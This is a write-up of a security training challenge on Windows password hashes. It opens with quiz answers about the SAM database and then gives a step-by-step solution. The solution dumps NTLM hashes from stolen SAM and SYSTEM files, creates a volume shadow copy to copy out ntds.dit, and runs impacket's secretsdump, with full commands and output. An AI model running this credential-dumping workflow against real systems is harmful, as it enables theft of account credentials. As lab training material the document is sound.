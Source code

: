 #### Day 4. Password Hashes

###### Question

1. Which algorithm is used for calculating hashes of passwords in Windows?	
	**`MD4`**

2. How are password hashes protected in the SAM database?

	**`Hashes are encrypted with the key stored in SYSTEM registry hive`**

3. What are “rainbow tables”?

	**`It is a set of pre-calculated hashes for most popular passwords.`**

4. Where is the SAM database stored on the disk?

	**`C:\Windows\system32\config\sam`**

5. How is the password hash usually displayed?

	**`32 hex digits (0-F)`**
	
###### Exercise

- During the penetration test, your friendly auditor was able to acquire `SAM` and `SYSTEM` files from one of analyzed servers. Now he shares these files with you because he knows you can perform some analysis.
Please find the link below the video and then:

1. Extract hashes from files provided
2. Guess/recover/crack as many passwords as you can.

All files for working with local hashes can be downloaded here.
The password is `CQUREAcademy#123!`

If you want also play with Active Direcory, the toolset you can find here.
The password is `CQUREAcademy#123!`

- Important

There is NO one and only answer to the Part 2 of this challenge, that is why there is no
“Submit” process. BUT if you are eager to share your results and thinking process to the Challenge Part 2, please put it in the comment section below so we can have some discussion about it!

###### Solution

- Extract hashes from files provided

```
C:\Users\Administrator\Desktop>CQHashDumpv2.exe --samdump --sam StolenFiles\SAM --sys StolenFiles\SYSTEM
SAM hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
test1:1008:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
test2:1009:aad3b435b51404eeaad3b435b51404ee:186cb09181e2c2ecaac768c47c729904:::
test3:1010:aad3b435b51404eeaad3b435b51404ee:e0fba38268d0ec66ef1cb452d5885e53:::
test4:1011:aad3b435b51404eeaad3b435b51404ee:0bd63185f3484bb000286c85917dc12e:::
test5:1012:aad3b435b51404eeaad3b435b51404ee:a4f49c406510bdcab6824ee7c30fd852:::
test6:1013:aad3b435b51404eeaad3b435b51404ee:4ccdb7041204d5488c04637bf6adff08:::
test7:1014:aad3b435b51404eeaad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf:::
test8:1015:aad3b435b51404eeaad3b435b51404ee:f67f5e3f66efd7298be6acd32eeeb27c:::
test9:1016:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
test10:1017:aad3b435b51404eeaad3b435b51404ee:9f8419c868078392e0cbf16976724291:::

C:\Users\Administrator\Desktop>
C:\Users\Administrator\Desktop>CQHashDumpv2.exe --samdump --sam StolenFiles\SAM --sys StolenFiles\SYSTEM > hashes.txt

C:\Users\Administrator\Desktop>
```

![](images/1.png)

```PowerShell
PS C:\Users\Administrator\Desktop> Get-Content .\hashes.txt | Select-String -Pattern ':::' | ForEach-Object { ($_ -split ':')[3] }
e19ccf75ee54e06b06a5907af13cef42
e19ccf75ee54e06b06a5907af13cef42
e19ccf75ee54e06b06a5907af13cef42
186cb09181e2c2ecaac768c47c729904
e0fba38268d0ec66ef1cb452d5885e53
0bd63185f3484bb000286c85917dc12e
a4f49c406510bdcab6824ee7c30fd852
4ccdb7041204d5488c04637bf6adff08
2d20d252a479f485cdf5e171d93985bf
f67f5e3f66efd7298be6acd32eeeb27c
32ed87bdb5fdc5e9cba88547376818d4
9f8419c868078392e0cbf16976724291
PS C:\Users\Administrator\Desktop>
```

![](images/2.png)

![](images/3.png)

[Step-By-Step: Setting up Active Directory in Windows Server 2016](https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/)

![](images/4.png)

- Guess/recover/crack as many passwords
	- Extract `ntds.dit`

```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>vssadmin
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Error: Invalid command.

---- Commands Supported ----

Add ShadowStorage     - Add a new volume shadow copy storage association
Create Shadow         - Create a new volume shadow copy
Delete Shadows        - Delete volume shadow copies
Delete ShadowStorage  - Delete volume shadow copy storage associations
List Providers        - List registered volume shadow copy providers
List Shadows          - List existing volume shadow copies
List ShadowStorage    - List volume shadow copy storage associations
List Volumes          - List volumes eligible for shadow copies
List Writers          - List subscribed volume shadow copy writers
Resize ShadowStorage  - Resize a volume shadow copy storage association
Revert Shadow         - Revert a volume to a shadow copy
Query Reverts         - Query the progress of in-progress revert operations.

C:\Users\Administrator>
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Get-WmiObject -list Win32_ShadowCopy


   NameSpace: ROOT\cimv2

Name                                Methods              Properties
----                                -------              ----------
Win32_ShadowCopy                    {Create, Revert}     {Caption, ClientAccessible, Count, Description...}


PS C:\Users\Administrator> (Get-WmiObject -list Win32_ShadowCopy).Create("C:\","ClientAccessible")


__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      : 0
ShadowID         : {46DF9097-D123-4364-85A0-5FDBDBEB0B44}
PSComputerName   :



PS C:\Users\Administrator> exit

C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0d116912-91ff-4826-acff-ab408446121f}
   Contained 1 shadow copies at creation time: 3/10/2018 6:01:00 PM
      Shadow Copy ID: {46df9097-d123-4364-85a0-5fdbdbeb0b44}
         Original Volume: (C:)\\?\Volume{b5c5e198-0000-0000-0000-501f00000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: WIN-VK8FOCA4FDK.kanishka.com
         Service Machine: WIN-VK8FOCA4FDK.kanishka.com
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential


C:\Users\Administrator>
C:\Users\Administrator>mklink C:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
symbolic link created for C:\shadowcopy <<===>> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

C:\Users\Administrator>
C:\Users\Administrator>copy c:\shadowcopy\Windows\NTDS\ntds.dit .
        1 file(s) copied.

C:\Users\Administrator>copy ntds.dit "Desktop\ActiveDirectory\1 LIBESEDB"
        1 file(s) copied.

C:\Users\Administrator>
C:\Users\Administrator>copy c:\shadowcopy\Windows\System32\config\SYSTEM C:\Users\Administrator\Desktop
        1 file(s) copied.

C:\Users\Administrator>
```

```sh
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python setup.py install
pip install -r requirements.txt
python impacket/examples/secretsdump.py -ntds ntds.dit -system SYSTEM local -just-dc-ntlm
```

###### Reference

- [CQURE 5-DAY CHALLENGE – DAY 4: PASSWORD & HASHES](https://zoovash.io/2017/05/22/cqure-5-day-challenge-day-4-password-hashes/)
